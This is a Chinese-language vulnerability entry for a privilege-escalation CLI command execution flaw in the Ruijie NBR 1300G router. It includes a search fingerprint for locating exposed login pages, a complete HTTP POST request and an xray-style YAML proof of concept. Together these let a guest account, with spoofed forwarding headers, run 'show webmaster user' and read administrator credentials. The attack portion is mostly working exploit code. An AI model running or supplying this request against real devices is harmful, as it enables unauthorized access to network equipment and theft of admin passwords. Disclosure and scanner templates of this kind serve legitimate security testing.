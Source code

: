 # 锐捷 NBR 1300G 路由器 越权 CLI 命令执行漏洞

## 漏洞描述

锐捷 NBR 1300G 路由器 越权 CLI 命令执行漏洞，guest 账户可以越权获取管理员账号密码

参考链接：

- https://github.com/chaitin/xray/blob/master/pocs/ruijie-nbr1300g-cli-password-leak.yml

## 漏洞影响

```
锐捷 NBR 路由器
```

## 网络测绘

```
title="锐捷网络 --NBR路由器--登录界面"
```

## 漏洞复现

登录页面如下

![](images/锐捷%20NBR%201300G%20路由器%20越权%20CLI%20命令执行漏洞/file-20240904113419711.png)

执行 CLI 命令 `show webmaster user` 查看用户配置账号密码：

```plain
POST /WEB_VMS/LEVEL15/ HTTP/1.1
Host: 
Connection: keep-alive
Content-Length: 73
Authorization: Basic Z3Vlc3Q6Z3Vlc3Q=
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: auth=; user=
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1

command=show%webmaster%user&strurl=exec%04&mode=%02PRIV_EXEC&signname=Red-Giant.
```

![](images/锐捷%20NBR%201300G%20路由器%20越权%20CLI%20命令执行漏洞/file-20240904112924288.png)

## 漏洞 POC

xpoc

```
name: poc-yaml-ruijie-nbr1300g-cli-password-leak
manual: true
transport: http
rules:
    r0:
        request:
            cache: true
            method: POST
            path: /WEB_VMS/LEVEL15/
            headers:
                Authorization: Basic Z3Vlc3Q6Z3Vlc3Q=
            body: |
                command=show webmaster user&strurl=exec%04&mode=%02PRIV_EXEC&signname=Red-Giant.
            follow_redirects: false
        expression: response.status == 200 && response.body.bcontains(bytes("webmaster level 2 username guest password guest"))
expression: r0()
detail:
    author: abbin777
    links:
        - http://wiki.peiqi.tech/PeiQi_Wiki/%E7%BD%91%E7%BB%9C%E8%AE%BE%E5%A4%87%E6%BC%8F%E6%B4%9E/%E9%94%90%E6%8D%B7/%E9%94%90%E6%8D%B7NBR%201300G%E8%B7%AF%E7%94%B1%E5%99%A8%20%E8%B6%8A%E6%9D%83CLI%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.html
```
